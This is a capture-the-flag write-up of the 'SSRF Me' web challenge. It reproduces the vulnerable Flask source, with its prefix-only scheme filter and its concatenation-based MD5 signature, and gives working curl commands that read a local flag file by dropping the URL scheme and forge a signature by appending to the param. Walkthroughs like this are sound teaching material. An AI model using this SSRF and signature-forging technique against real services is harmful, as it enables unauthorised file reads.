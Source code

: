 # SSRF Me

Category: `web`

Description: `SSRF ME TO GET FLAG.`

Hint: `flag is in ./flag.txt`

Service: `http://139.180.128.86/`

Points: `78`

### What It Does

This is on SSRF. We have to bypass the WAF checks and try to read a local file that contains the flag.

The contents of the main page shows the source code of the web application.

```python
#! /usr/bin/env python
#encoding=utf-8
from flask import Flask
from flask import request
import socket
import hashlib
import urllib
import sys
import os
import json
reload(sys)
sys.setdefaultencoding('latin1')

app = Flask(__name__)

secert_key = os.urandom(16)


class Task:
    def __init__(self, action, param, sign, ip):
        self.action = action
        self.param = param
        self.sign = sign
        self.sandbox = md5(ip)
        if(not os.path.exists(self.sandbox)):          #SandBox For Remote_Addr
            os.mkdir(self.sandbox)

    def Exec(self):
        result = {}
        result['code'] = 500
        if (self.checkSign()):
            if "scan" in self.action:
                tmpfile = open("./%s/result.txt" % self.sandbox, 'w')
                resp = scan(self.param)
                if (resp == "Connection Timeout"):
                    result['data'] = resp
                else:
                    print resp
                    tmpfile.write(resp)
                    tmpfile.close()
                result['code'] = 200
            if "read" in self.action:
                f = open("./%s/result.txt" % self.sandbox, 'r')
                result['code'] = 200
                result['data'] = f.read()
            if result['code'] == 500:
                result['data'] = "Action Error"
        else:
            result['code'] = 500
            result['msg'] = "Sign Error"
        return result

    def checkSign(self):
        if (getSign(self.action, self.param) == self.sign):
            return True
        else:
            return False


#generate Sign For Action Scan.
@app.route("/geneSign", methods=['GET', 'POST'])
def geneSign():
    param = urllib.unquote(request.args.get("param", ""))
    action = "scan"
    return getSign(action, param)


@app.route('/De1ta',methods=['GET','POST'])
def challenge():
    action = urllib.unquote(request.cookies.get("action"))
    param = urllib.unquote(request.args.get("param", ""))
    sign = urllib.unquote(request.cookies.get("sign"))
    ip = request.remote_addr
    if(waf(param)):
        return "No Hacker!!!!"
    task = Task(action, param, sign, ip)
    return json.dumps(task.Exec())
@app.route('/')
def index():
    return open("code.txt","r").read()


def scan(param):
    socket.setdefaulttimeout(1)
    try:
        return urllib.urlopen(param).read()[:50]
    except:
        return "Connection Timeout"



def getSign(action, param):
    return hashlib.md5(secert_key + param + action).hexdigest()


def md5(content):
    return hashlib.md5(content).hexdigest()


def waf(param):
    check=param.strip().lower()
    if check.startswith("gopher") or check.startswith("file"):
        return True
    else:
        return False


if __name__ == '__main__':
    app.debug = False
    app.run(host='0.0.0.0',port=80)
```

`geneSign` API generates a MD5 hash `sign` of the user-supplied `param` for the `action` of `scan`.

`De1ta` API has a WAF check and ensures that the supplied `sign` is correct. The WAF checks that `param` does not starts with `gopher` or `file` to prevent common URL schemes. The API only has 2 valid `action`: `scan` and `read`. With a valid request, the web application executes the actions if `action` contains the substring `scan` or `read`. `scan` writes the output of a URL to a file and `read` returns the file contents.

### How to Solve

We have to use `scan` to write the file contents of `flag.txt` to the file so that we can use `read` on it to retrieve the contents.

`scan` uses `urllib.urlopen()` function.

```python
def scan(param):
    socket.setdefaulttimeout(1)
    try:
        return urllib.urlopen(param).read()[:50]
    except:
        return "Connection Timeout"
```

To bypass the WAF checks, we cannot use `gopher` or `file` URL scheme to get the file contents.

From the Python 2 `urllib` [docs](https://docs.python.org/2/library/urllib.html#urllib.urlopen):

> If the URL does not have a scheme identifier, or if it has `file:` as its scheme identifier, this opens a local file

Hence, we can just use `urllib.urlopen("flag.txt")` to open a local file without supplying a URL scheme.

```shellsession
ubuntu@ubuntu-bionic:~$ curl http://139.180.128.86/geneSign?param=flag.txt
8370bdba94bd5aaf7427b84b3f52d7cbubuntu@ubuntu-bionic:~$ 
```

_Note: `urllib2.urlopen()`, equivalent to `urllib.request.urlopen()` in Python 3, requires a URL scheme_

We also have to make a valid request that will also execute the `read` action.

The function that generates `sign` is as follows:

```python
def getSign(action, param):
    return hashlib.md5(secert_key + param + action).hexdigest()
```

Notice that `param` is concatenated with `action`.

We can use the `geneSign` API to generate the `sign` of the `param` `flag.txtread` for the `scan` action. Then, trick the `De1ta` API with `param` `flag.txt` and `readscan` action using the generated `sign`. Since `action` contains both `scan` and `read`, both actions are executed.

```shellsession
ubuntu@ubuntu-bionic:~$ curl http://139.180.128.86/geneSign?param=flag.txtread
7cde191de87fe3ddac26e19acae1525eubuntu@ubuntu-bionic:~$ 
ubuntu@ubuntu-bionic:~$ curl http://139.180.128.86/De1ta?param=flag.txt --cookie 'action=readscan;sign=7cde191de87fe3ddac26e19acae1525e'
{"code": 200, "data": "de1ctf{27782fcffbb7d00309a93bc49b74ca26}"}ubuntu@ubuntu-bionic:~$ 
```

Alternatively, we can combine the requests in a single line:

```shellsession
ubuntu@ubuntu-bionic:~$ curl http://139.180.128.86/De1ta?param=flag.txt --cookie "action=readscan;sign=$(curl http://139.180.128.86/geneSign?param=flag.txtread)"
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100    32  100    32    0     0     16      0  0:00:02  0:00:01  0:00:01    16
{"code": 200, "data": "de1ctf{27782fcffbb7d00309a93bc49b74ca26}"}ubuntu@ubuntu-bionic:~$ 
```

**Flag: `de1ctf{27782fcffbb7d00309a93bc49b74ca26}`**